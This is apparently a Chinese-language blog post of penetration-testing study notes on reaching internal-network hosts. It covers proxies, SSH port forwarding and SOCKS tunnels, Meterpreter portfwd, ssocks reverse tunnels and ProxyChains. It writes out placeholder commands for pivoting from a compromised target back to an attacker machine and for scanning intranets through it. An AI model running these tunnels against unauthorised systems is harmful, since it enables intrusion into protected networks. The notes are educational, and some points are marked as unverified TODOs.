 ```yaml
---
title: 打通与内网的连接
categories:
- Network_Security
- Intranet
- Connection
tags:
- Intranet
- Connection
date: 2024-10-11 15:02:41
---
```


# 打通与内网机器的连接（待抓包）

## 1. 正反向代理、正反向连接、端口映射和端口转发

### 1.1 正反向代理

1. 代理由代理服务器担任。通信过程中有三方：客户端、服务端、代理服务器。
2. 正向代理就是代理服务器作为“客户端”的代理人，客户端发送请求，**由代理服务器去和服务端建立连接，同时代理服务器将结果返回给客户端。**正向代理可用于**隐藏客户端的真实 IP 地址**，访问被限制的内容，过滤和加速请求等。典型应用就是梯子。
3. 反向代理也就是代理服务器作为“服务器”的代理人。代表目标服务器执行请求。当客户端需要访问某个服务时，它**发送请求到反向代理服务器**，然后代理服务器将请求转发给目标服务器，并将响应返回给客户端。反向代理常用负载均衡、CDN、保护后端服务器和隐藏服务器身份等。渗透中反向用的多，这样可以**绕过防火墙拦截。**

### 1.2 正反向连接

1. 正向连接就是主动连接，客户端充当主动方，向服务器发起连接请求，然后服务器接受并处理请求。
2. 反向连接是指**目标系统（通常是受害者）主动建立**与控制系统或服务器的连接。反向连接通常用于合法的远程管理和控制，例如远程桌面会话、SSH远程管理等。在反向连接中，目标系统充当客户端，主动连接到远程服务器或控制服务器，以接受命令并将结果返回。

### 1.3 端口映射和端口转发

1. 端口映射和端口转发本质都是将一个端口的流量转送到另一个端口。
2. 端口映射在进行流量传递的时候没有对流量进行任何处理。
3. 而严格意义上的端口转发则是采用了 SSH，对流量进行加密后进行传递。
4. 端口映射常用于 NAT 技术，端口映射是 NAT 的一种，也叫 NAT Server，一般用于**外网对内网**的访问。
5. 端口转发一般称为**隧道**或**代理**。
6. 在维基上，两者似乎没什么区别：
    ![image-20240517191854157](Connection/image-20240517191854157.png)

## 2. SSH 的隧道技术

1. 网上教程很多，可以参考：

    > https://wangdoc.com/ssh/basic

    这里提一些细节。

2. 注意 SSH 和 SSL 的区别。SSH 是单独的技术，SFTP 用的就是 SSH，而 FTPS 用的是 SSL。

3. 注意 SSH 是有两种登录方式，一种是常见的口令登录，另一种是基于**公私钥**。客户端的公钥放在服务器上。使用[“挑战 - 应答”](https://www.endlessshw.top/2024/05/01/Cryptography/%E5%8C%97%E9%82%AE%E5%AF%86%E7%A0%81%E5%AD%A6%E9%9D%A2%E8%AF%95/#1-9-5-%E6%8C%91%E6%88%98-%E5%BA%94%E7%AD%94%E8%BA%AB%E4%BB%BD%E9%89%B4%E5%88%AB%E5%8D%8F%E8%AE%AE)的方式来验证身份，具体来讲，就是客户端用“私钥”**签名挑战**，服务端用“公钥”解密签名后对比数据。详见：

    > https://wangdoc.com/ssh/key

    这种方法有时候可以作为[突破口](https://www.endlessshw.top/2024/05/01/Network_Security/Vulnhub_Journey/Chapter6_Easy_EvilBox/Easy_EvilBox/#1-2-%E6%8B%BF%E5%88%B0-Shell-SSH-%E7%9A%84%E5%85%AC%E9%92%A5%E8%AE%A4%E8%AF%81%E4%BD%93%E7%B3%BB)。

### 2.1 SSH 常用的一些参数解释

1. `-C`：启用数据压缩，可能可以提高传输速度。
2. `-D`：表示动态转发，动态转发指的是，本机与 SSH 服务器之间创建了一个加密连接，然后本机内部针对某个端口的通信，都通过这个加密连接转发。它的一个使用场景就是，访问所有外部网站，都通过 SSH 转发。动态转发需要把本地端口绑定到 SSH 服务器。至于 SSH 服务器要**去访问哪一个网站，完全是动态的，取决于原始通信**，所以叫做动态转发。
3. `-f`：要求在执行命令前退至后台。它用于当准备询问口令或密语，但是用户希望它在后台进行。该选项**隐含了** `-n` 选项。
4. `-L`：本地端口转发，用于将**本地端口转发到远程**主机。
5. `-N`：不执行远程命令，只用于转发端口，常用于建立隧道。
6. `-n`：把 stdin 重定向到 `/dev/null` (实际上防止从 stdin 读取数据)。在后台运行时一定会用到这个选项。
7. `-q`：安静模式，消除所有的警告和诊断信息。
8. `-R`：**远程端口转发到本地**，也就是 `-L` 的反向。
9. `-T`：禁止分配伪终端。伪终端是什么：https://www.cnblogs.com/zzdyyy/p/7538077.html。

### 2.2 ssh 进行正反向转发/代理、动态转发的方式

1. 本来网上到处找博客来看，结果人家一个教程给你写的明明白白：

    > https://www.cainiaojc.com/ssh/ssh-port-forwarding.html

2. 结合他的说明，正向转发的命令就是：
    `ssh -fCNL 攻击机的本地端口:靶机 IP:靶机端口 攻击机 IP`。
    也就是说，发往攻击机本地端口的数据，被攻击机的 SSH 代理（正向代理）；此时 SSH 充当隧道/中介，将请求转发到靶机的目标端口。
    该条命令在攻击机上执行。
    如果要访问内网，应该在靶机上执行（TODO 待实践）：
    `ssh -fCNL 靶机的本地端口:内网靶机 IP:内网靶机端口 靶机 IP`。

3. 反向代理的命令就是：
    `ssh -fnqNTR 攻击机端口:内网靶机 IP:内网靶机端口 攻击机 IP`
    即把靶机内网端口的内容映射到攻击机的端口上，此时攻击机的端口就充当反向代理服务器。
    这条命令在靶机上执行。

4. 动态转发（正向）就是：
    `ssh -fnqNTD 攻击机 SOCKS 端口 靶机 IP`。
    攻击机执行，此时靶机充当 SSH 服务器，攻击机的端口和靶机之间建立加密连接，其内部使用 SOCKS5 协议，因此攻击机发往靶机/跳板的流量也必须是 SOCKS5 流量，所以这里还要使用 ProxyChain，用 SOCKS5 来代理其他流量。（TODO 但是不懂是不是单向的，看描述像是只能正向单向，如果单向的话，那用 SSOCKS 可能要更好）

5. 个人对于 SSH 的流量转发的理解是，正反向代理**转发任意流量**，包括但不限于 http、ftp 等等，但是**只能针对一个端口**。而动态转发采用的 SOCKS5，所以需要额外配置 ProxyChains，但是端口不限，所以可以用于 Nmap 等来扫描内网。

## 3. Portfwd 的隧道技术

### 3.1 前置条件

1. Portfwd 集成在 Meterpreter 中，在拥有 Meterpreter 的 Shell 下使用。

### 3.2 相关命令

1. 完整命令：
    `meterpreter > portfwd add -L 攻击机 ip -l 攻击机端口 -r 目标 ip -p 目标端口`。
2. 如果不指定 `-L`，默认就是 `0.0.0.0`，也就是攻击机 IP（上述命令在攻击机上执行）。
3. 目标 IP 一般就是内网 IP 了。

## 4. Ssocks 代理

1. Ssocks 工具用来建立一个使用 SOCKS 协议的隧道。

2. 下载地址：

    > http://sourceforge.net/projects/ssocks/

3. 安装：
    ```bash
    tar -zxvf ssocks-0.0.14.tar.gz
    cd ssocks-0.0.14
    ./configure && make
    ```

4. 攻击机/VPS 接收反弹过来的 SSOCKS：
    `./rcsocks -l 最终端口 -p 中转/隧道端口 -vv`

5. 靶机执行：
    `./rssocks -s 攻击机 ip:中转/隧道端口 -vv`

6. 以上创建了一个 SSOCKS5/4 的隧道，使用 ProxyChains 或者浏览器开启 SSocks 来发送流量，然后攻击机会再转发一次流量（和 frp 一样，我也不懂为啥最后还要再转发一下，即为什么需要两个端口）。

7. ProxyChains 配置：
    ```bash
    apt-get install proxychains
    vim /etc/proxychains.conf
    # 末尾写上 socks5 127.0.0.1 SOCKS 端口
    proxychains 其他工具的命令
    ```

    
